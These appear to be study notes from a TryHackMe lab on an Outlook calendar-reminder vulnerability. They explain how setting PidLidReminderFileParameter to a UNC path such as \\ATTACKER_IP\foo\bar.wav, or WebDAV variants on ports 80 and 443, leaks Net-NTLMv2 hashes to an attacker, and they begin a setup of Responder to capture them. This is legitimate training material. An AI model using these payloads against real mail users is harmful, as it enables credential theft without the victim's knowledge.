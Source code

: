 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)

## Table of Contents


On Outlook, it's possible to add reminder notifications when sending calendar invitations:  

![Outlook Appointments](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/a62596e7262ef8119a558ee9598ec2ef.png)


You can specify the audio file played when a user gets a notification reminder for a calendar meeting or event. Typically, this would be used for a user to set up their own notifications by pointing to an audio file:

![Reminder Sound Configuration](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/471b82a81e0a4b210191dafe1a0a55e1.png)

Manipulating this parameter can enable a threat actor to force Outlook to leak the current password hashes to an attacker with zero interaction required.



To set up the **PidLidReminderFileParameter** property to point to a network share, the attacker can specify a **Universal Naming Convention (UNC)** path instead of a local file. UNC is used in Windows operating systems to find network resources (files, printers, shared documents). These paths consist of a double backslash, the IP address or name of the computer hosting the resource, the share name and the file name. For example:

`\\ATTACKER_IP\foo\bar.wav`

When the victim receives the malicious email, the UNC path directs them to that SMB share, triggering the vulnerability. This causes the system to start an NTLM authentication process against the attacker's machine, leaking a Net-NTLMv2 hash that the attacker can later try to crack.

![Exploiting the Vulnerability](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/c841bc06b6cfd44c8453d21204a9927b.png)

If for some reason the SMB protocol isn't a viable alternative to use, non-server versions of Windows will accept using UNC paths pointing to ports 80 or 443, and use HTTP to retrieve the file from a WebDAV-enabled web server. The syntax of such UNC path is as follows:


`\\ATTACKER_IP@80\foo\bar.wav`

`\\ATTACKER_IP@443\foo\bar.wav`

This may be useful to bypass firewall restrictions preventing outgoing connections to port 445 (SMB).

[!UNC Paths](obsidian://open?vault=Notes-Ubuntu&file=UNC%20Paths)



Setting up Responder

Since we expect the victim to trigger an authentication attempt against the attacker on port 445, we will set up Responder to handle the authentication process and capture the NetNTLM hash for us. If you are unfamiliar with Responder, it will simply emulate an SMB server and capture any authentication attempt against it.
